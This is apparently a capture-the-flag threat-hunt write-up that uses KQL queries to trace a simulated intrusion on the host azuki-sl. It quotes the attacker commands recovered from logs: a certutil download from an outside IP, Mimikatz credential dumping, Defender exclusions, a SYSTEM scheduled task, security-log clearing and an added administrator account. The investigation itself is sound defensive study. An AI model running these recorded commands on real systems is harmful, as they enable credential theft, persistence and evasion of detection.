# Pt.1) November 22, 2025 — Port of Entry

---

**Flag 1: INITIAL ACCESS - Remote Access Source**

I  looked for any login activity involving azuki-sl that was successful between 2025-11-19 and 2025-11-19. I found a remote ip, 88.97.178.12 that connected over the network at 2025-11-19T18:36:18.503997Z UTC.

Finding:

- First successful login: 2025-11-19T18:36:18.503997Z UTC
- Remote IP: 88.97.178.12
- DeviceName: azuki-sl
- AccountName: kenji.sato

```
DeviceLogonEvents
|where DeviceName contains "azuki-sl"
|where ActionType contains "Success"
|where Timestamp  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, DeviceName, ActionType, RemoteIP, RemoteIPType, LogonType, AccountName
|sort by TimeGenerated asc

```



Why this matters: Remote Desktop Protocol connections leave network traces that identify the source of unauthorized access. Determining the origin helps with threat actor attribution and blocking ongoing attacks.

---

**Flag 2: INITIAL ACCESS - Compromised User Account**

I used the same query to discover the account name.

Finding:

2025-11-19T18:36:18.503997Z UTC
kenji.sato

```
DeviceLogonEvents
|where DeviceName contains "azuki-sl"
|where ActionType contains "Success"
|where Timestamp  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, DeviceName, ActionType, RemoteIP, RemoteIPType, LogonType, AccountName
|sort by TimeGenerated asc

```



Why this matters: Identifying which credentials were compromised determines the scope of unauthorized access and guides remediation efforts including password resets and privilege reviews.

---

**Flag 3: DISCOVERY - Network Reconnaissance**

I wanted to discover what process would have been executed to enumerate network devices. I began my search in the DeviceProcessEvents table where I found an ARP.exe file with the process command line "ARP.EXE" -a at 2025-11-19T19:04:01.773778Z UTC which is in line with our timeline of initial logon access.

2025-11-19T19:04:01.773778Z UTC
"ARP.EXE" -a
Network Enumeration via Arp.exe
ID: T1016

```
//DISCOVERY - Network Reconnaissance
DeviceProcessEvents
| where DeviceName contains "azuki"
|where ProcessCommandLine has_any ("arp", "route", "ipconfig")
|where Timestamp  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project Timestamp, AccountName, FileName, ProcessCommandLine, DeviceName

```



Why this matters: Attackers enumerate network topology to identify lateral movement opportunities and high-value targets. This reconnaissance activity is a key indicator of advanced persistent threats.

---

**Flag 4: DEFENCE EVASION - Malware Staging Directory**

I looked into what process command lines contained attrib. I found around the same time a new folder was created where the attackers which served as the primary staging area.

1/19/2025, 7:05:33.766 PM
C:\ProgramData\WindowsCache
Used to store stolen data and malicious activity for attack purposes
ID: T1074.001

```
//DEFENCE EVASION - Malware Staging Directory
DeviceProcessEvents
| where DeviceName contains "azuki"
|where ProcessCommandLine contains "attrib"
|where Timestamp  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project Timestamp, DeviceName, FileName, FolderPath, ProcessCommandLine

```



Why this matters: Attackers establish staging locations to organize tools and stolen data. Identifying these directories reveals the scope of compromise and helps locate additional malicious artefacts.

---

**Flag 5: DEFENCE EVASION - File Extension Exclusions**

I found 3 instances where Exclusion\Extensions were added to the registry the registry value names associated with this were .exe, .ps1 and .bat.

2025-11-19T18:49:29.1787135Z
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Extensions

```
DeviceRegistryEvents
| where DeviceName contains "azuki"
|where RegistryKey contains @"\\Exclusions\\Extensions"
|where Timestamp  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, RegistryKey, RegistryValueData,RegistryValueName, RegistryValueType
|sort by TimeGenerated desc

```



Why this matter: Attackers add file extension exclusions to Windows Defender to prevent scanning of malicious files. Counting these exclusions reveals the scope of the attacker's defense evasion strategy.

---

**Flag 6: DEFENCE EVASION - Temporary Folder Exclusion**

11/19/2025, 6:49:27.683 PM
C:\Users\KENJI~1.SAT\AppData\Local\Temp

```
DeviceRegistryEvents
| where DeviceName contains "azuki"
|where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
|where RegistryKey contains @"Exclusions\\Paths"
|project TimeGenerated, RegistryKey, RegistryValueName
|sort by TimeGenerated desc

```



Why it matters: Attackers add folder path exclusions to Windows Defender to prevent scanning of directories used for downloading and executing malicious tools. These exclusions allow malware to run undetected.

---

**Flag 7:** **DEFENCE EVASION - Download Utility Abuse**

```
DeviceProcessEvents
| where DeviceName contains "azuki-sl"
|where ProcessCommandLine contains "url"
|where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, AccountDomain, ProcessCommandLine, FolderPath

```

Findings:

2025-11-19T19:07:21.0804181Z
"certutil.exe" -urlcache -f [http://78.141.196.6:8080/AdobeGC.exe](http://78.141.196.6:8080/AdobeGC.exe) C:\ProgramData\WindowsCache\mm.exe



Why this matters: Legitimate system utilities are often weaponized to download malware while evading detection. Identifying these techniques helps improve defensive controls

---

**Flag 8:** **PERSISTENCE - Scheduled Task Name**

```
DeviceProcessEvents
| where DeviceName contains "azuki-sl"
|where ProcessCommandLine contains "schtask"
|where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, AccountDomain, ProcessCommandLine, FolderPath

```

Findings:

- Time: 2025-11-19T19:07:46.9796512Z
- Persistence Method: Adversaries may use task scheduling to execute programs at system startup or on a scheduled basis for persistence.
- Location/Name: "schtasks.exe" /create /tn "Windows Update Check" /tr C:\ProgramData\WindowsCache\svchost.exe /sc daily /st 02:00 /ru SYSTEM /f
- MITRE Technique: ID: T1053



Why this matters: Scheduled tasks provide reliable persistence across system reboots. The task name often attempts to blend with legitimate Windows maintenance routines.

---

**Flag 9:** **PERSISTENCE - Scheduled Task Target**

```
DeviceProcessEvents
| where DeviceName contains "azuki-sl"
|where ProcessCommandLine contains "schtask"
|where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, AccountDomain, ProcessCommandLine, FolderPath

```

Findings:

- Time: 2025-11-19T19:07:46.9796512Z
- Persistence Method: ?
- Location/Name: C:\ProgramData\WindowsCache\svchost.exe
- MITRE Technique: ID: T1053



Why this matters: The scheduled task action defines what executes at runtime. This reveals the exact persistence mechanism and the malware location.

---

**Flag 10:** **COMMAND & CONTROL - C2 Server Address**

```
DeviceNetworkEvents
| where DeviceName contains "azuki"
|where Timestamp between (datetime(2025-11-19 18:36:18) .. datetime(2025-11-20))
|project Timestamp, InitiatingProcessAccountName, ActionType, LocalIP, RemoteIP, RemotePort, InitiatingProcessCommandLine
|sort by Timestamp asc

```

Findings:

- Time: 2025-11-19T18:37:26.3725923Z
- C2 IP: 78.141.196.6
- C2 Port: 8080
- MITRE Technique: TA0011


Why this matters: Command and control infrastructure allows attackers to remotely control compromised systems. Identifying C2 servers enables network blocking and infrastructure tracking.

---

**Flag 11: COMMAND & CONTROL - C2 Communication Port**

```
DeviceNetworkEvents
| where DeviceName contains "azuki"
|where Timestamp between (datetime(2025-11-19 18:36:18) .. datetime(2025-11-20))
|project Timestamp, InitiatingProcessAccountName, ActionType, LocalIP, RemoteIP, RemotePort, InitiatingProcessCommandLine
|sort by Timestamp asc

```

Findings:

- Time: 2025-11-19T18:37:26.3725923Z
- C2 IP: 78.141.196.6
- C2 Port: 443? Why not 8080?
- MITRE Technique: TA0011


Why this matters: C2 communication ports can indicate the framework or protocol used. This information supports network detection rules and threat intelligence correlation.

---

**Flag 12: CREDENTIAL ACCESS - Credential Theft Tool**

```
DeviceFileEvents
|where FolderPath contains "WindowsCache"
|where FileName contains ".exe"
|where TimeGenerated  between (datetime(2025-11-19) .. datetime(2025-11-20))

```

7:07:22.855 PM
mm.exe
T1003



Why this matters: Credential dumping tools extract authentication secrets from system memory. These tools are typically renamed to avoid signature-based detection.

---

**Flag 13: CREDENTIAL ACCESS - Memory Extraction Module**

```
DeviceProcessEvents
| where FolderPath contains "WindowsCache"
| where FileName endswith ".exe"
|where TimeGenerated  between (datetime(2025-11-19) .. datetime(2025-11-20))
| project Timestamp, FileName, FolderPath, ProcessCommandLine
| sort by Timestamp asc

```

11/19/2025, 7:08:26.280 PM
"mm.exe" privilege::debug sekurlsa::logonpasswords exit
mm.exe



Why this matters: Credential dumping tools use specific modules to extract passwords from security subsystems. Documenting the exact technique used aids in detection engineering.

---

**Flag 14: COLLECTION - Data Staging Archive**

```
DeviceFileEvents
|where DeviceName contains "azuki"
|where FileName contains ".zip"
|where TimeGenerated  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project FileName, FolderPath

```

- Time: 2025-11-19T19:08:58.0244963Z
- Files Collected:
- Archive Name: C:\ProgramData\WindowsCache\export-data.zip
- MITRE Technique: T1560.001



Attackers compress stolen data for efficient exfiltration. The archive filename often includes dates or descriptive names for the attacker's organisation.

---

**Flag 15: EXFILTRATION - Exfiltration Channel**

```
DeviceNetworkEvents
| where DeviceName contains "azuki"
| where InitiatingProcessCommandLine contains "WindowsCache"
|where TimeGenerated  between (datetime(2025-11-19) .. datetime(2025-11-20))
| project Timestamp, InitiatingProcessFileName, RemoteUrl, RemoteIP, RemotePort
| sort by Timestamp asc

```

2025-11-19T19:09:21.4234133Z
Discord
162.159.135.232 Port 443
T1567



Why this matters: Cloud services with upload capabilities are frequently abused for data theft. Identifying the service helps with incident scope determination and potential data recovery.

---

**Flag 16: ANTI-FORENSICS - Log Tampering**

```
DeviceProcessEvents
|where DeviceName contains "azuki"
| where ProcessCommandLine contains "wevtutil"
|where TimeGenerated  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, FileName, DeviceName, ProcessCommandLine

```

2025-11-19T17:21:25.9061368Z
"wevtutil.exe" cl Security
Security Log Deletion
T1070.001



Clearing event logs destroys forensic evidence and impedes investigation efforts. The order of log clearing can indicate attacker priorities and sophistication.

---

**Flag 17: IMPACT - Persistence Account**

```
DeviceProcessEvents
|where DeviceName contains "azuki"
|where ProcessCommandLine contains "/add"
|where TimeGenerated  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, DeviceName, FileName, ProcessCommandLine

```

2025-11-19T19:09:53.0739166Z
net1.exe
net1 localgroup Administrators support /add
T1136.001



Why this matters: Hidden administrator accounts provide alternative access for future operations. These accounts are often configured to avoid appearing in normal user interfaces.

---

**Flag 18: EXECUTION - Malicious Script**

```
DeviceFileEvents
|where DeviceName contains "azuki"
|where FolderPath contains "WindowsCache"
|where TimeGenerated  between (datetime(2025-11-19) .. datetime(2025-11-20))

```

2025-11-19T19:05:30.755805Z
wupdate.ps1
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File "C:\Users\KENJI~1.SAT\AppData\Local\Temp\wupdate.ps1"
T1059.001



Why this matters: Attackers often use scripting languages to automate their attack chain. Identifying the initial attack script reveals the entry point and automation method used in the compromise.

---

**Flag 19: LATERAL MOVEMENT - Secondary Target**

```
DeviceProcessEvents
| where ProcessCommandLine contains "mstsc" or ProcessCommandLine contains "cmdkey"
| where DeviceName contains "azuki"
|where TimeGenerated  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, AccountName, ProcessCommandLine, FileName, FolderPath, DeviceName
|sort by TimeGenerated desc

```

2025-11-19T19:10:37.2625077Z

10.1.0.188
"cmdkey.exe" /generic:10.1.0.188 /user:fileadmin /pass:**********
T1550
TA0008



Why this matters: Lateral movement targets are selected based on their access to sensitive data or network privileges. Identifying these targets reveals attacker objectives.

---

**Flag 20: LATERAL MOVEMENT - Remote Access Tool**

```
DeviceProcessEvents
| where ProcessCommandLine contains "10.1.0.188"
| where DeviceName contains "azuki"
|where TimeGenerated  between (datetime(2025-11-19) .. datetime(2025-11-20))
|project TimeGenerated, AccountName, ProcessCommandLine, FileName, FolderPath, DeviceName
|sort by TimeGenerated desc

```

2025-11-19T19:10:41.372526Z
mstsc.exe
T1021.001



Why this matters: Built-in remote access tools are preferred for lateral movement as they blend with legitimate administrative activity. This technique is harder to detect than custom tools.
